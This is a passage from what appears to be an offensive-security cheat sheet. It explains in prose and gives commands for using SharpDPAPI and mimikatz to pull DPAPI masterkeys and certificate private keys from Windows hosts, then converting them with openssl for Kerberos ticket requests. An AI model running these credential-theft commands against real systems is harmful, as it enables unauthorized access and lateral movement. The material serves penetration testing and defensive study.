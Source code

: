 In order to retrieve the `DPAPI masterkey` for users private keys, `SharpDAPI`
requires knowledge of either the user password or the Active Domain `DPAPI`
`Domain Backup Key`. If only the user `NTLM` hash is known or if code execution
is achieved under the security context of the targeted user (without
knowledge of the user password), `mimikatz` can be used to retrieve
`DPAPI masterkey(s)` (and the decryption / export can then be done using
`SharpDAPI`).

Private keys associated with machine certificates can be retrieved simply
through an elevated context. Indeed, the `DPAPI machine key`, required to
decrypt machine private keys, is located in `Local Security Authority (LSA)`
secrets and accessible to `NT AUTHORITY\SYSTEM`.

Refer to the `DPAPI - Generic and third parties credentials` section above for
more information on `DPAPI`.

```bash
# Enumerates all users private keys (as accessible depending on the current privileges) and the DPAPI masterkeys needed for decryption.
.\SharpDPAPI.exe certificates /showall

# If executed in a privileged context, retrieves all the machine private keys (by first elevating to "NT AUTHORITY\SYSTEM" to retrieve the DPAPI machine key).
.\SharpDPAPI.exe certificates /machine /showall

# Uses the specified user password to decrypt the DPAPI masterkeys and then retrieve the private keys.
.\SharpDPAPI.exe certificates /password:<PASSWORD>

# Uses an user security context to retrieve a private key.
# First identify the GUID of the DPAPI masterkey needed to decrypt the private key.
.\SharpDPAPI.exe certificates /showall

# Retrieve the specific masterkey SHA1 using mimikatz ("sha1: <SHA1>" in mimikatz's output).
# <MASTER_KEY_PATH> example: C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\<USER_SID>\<MASTERKEY_GUID>
mimikatz.exe "dpapi::masterkey /in:<MASTER_KEY_PATH> /rpc" exit

# Finally decrypt the private key using the retieved masterkey and export the certificate.
.\SharpDPAPI.exe certificates [/target:<PRIVATE_KEY_FILE_PATH>] "{<MASTERKEY_GUID>}:<MASTERKEY_SHA1>"
```

The certificates retrieved using `SharpDAPI` will be in the `PEM` format
(with public and private keys) and must be converted in the `PFX` format,
supported by Windows, to be further usable by some utilities (such as `Rubeus`
to request `TGT`):

```bash
openssl pkcs12 -in <IN_PEM_FILE> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <OUT_PFX_FILE>
```

### Automated Windows, generic and third parties credentials retrieval with LaZagne
